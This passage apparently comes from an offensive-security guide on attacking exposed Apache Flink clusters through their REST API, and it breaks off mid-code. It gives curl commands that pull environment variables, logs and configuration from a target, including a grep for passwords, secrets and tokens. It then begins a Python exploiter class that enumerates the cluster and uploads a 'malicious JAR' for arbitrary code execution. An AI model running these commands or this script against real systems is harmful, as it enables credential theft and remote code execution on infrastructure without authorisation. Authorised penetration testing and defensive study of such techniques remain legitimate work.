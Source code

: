 #### Sensitive Information Extraction

```bash
# Environment variables (potential credentials)
curl -s http://<target>:8081/jobmanager/environment | jq .

# JVM metrics (memory usage, GC stats)
curl -s http://<target>:8081/jobmanager/metrics | jq .

# Log file access
curl -s http://<target>:8081/jobmanager/log

# Configuration parameters
curl -s http://<target>:8081/config | grep -E "(password|secret|key|token)"
```

### Job Management and Code Execution

#### Malicious Job Deployment

Flink's job submission capabilities can be exploited for arbitrary code execution:

```python
#!/usr/bin/env python3
import requests
import json
import base64

class FlinkExploiter:
    def __init__(self, target_host, port=8081):
        self.base_url = f"http://{target_host}:{port}"
        self.session = requests.Session()
    
    def get_cluster_info(self):
        """Gather cluster information"""
        endpoints = [
            "/overview",
            "/config", 
            "/jobmanager/config",
            "/taskmanagers"
        ]
        
        info = {}
        for endpoint in endpoints:
            try:
                response = self.session.get(f"{self.base_url}{endpoint}")
                if response.status_code == 200:
                    info[endpoint] = response.json()
            except Exception as e:
                print(f"Error accessing {endpoint}: {e}")
        
        return info
    
    def list_jobs(self):
        """List all jobs in the cluster"""
        response = self.session.get(f"{self.base_url}/jobs")
        if response.status_code == 200:
            return response.json()
        return None
    
    def upload_jar(self, jar_path):
        """Upload malicious JAR file"""
        with open(jar_path, 'rb') as f:
            files = {'jarfile': f}
            response = self.session.post(
```